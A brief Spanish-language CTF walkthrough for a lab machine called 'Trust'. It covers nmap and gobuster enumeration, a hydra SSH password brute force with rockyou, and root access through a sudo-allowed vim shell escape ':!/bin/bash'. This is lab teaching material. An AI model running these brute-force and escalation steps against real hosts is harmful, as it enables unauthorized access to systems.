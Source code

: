 Maquina: Trust
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN puertos

gobuster dir -w /usr/share/wordlist/Seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/' -x .php,.sh,.py,.txt

buscamos en el archivo encontrado y descubrimos el nombre de un usuario
utilizamos hydra para conseguir la contraseña
hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

entramos por ssh con la contraseña encontrada
ssh mario@172.17.0.2

sudo -l
descubrimos que podemos ejecutar el comando vim
sudo -u root /usr/bin/vim
:!/bin/bash
whoami
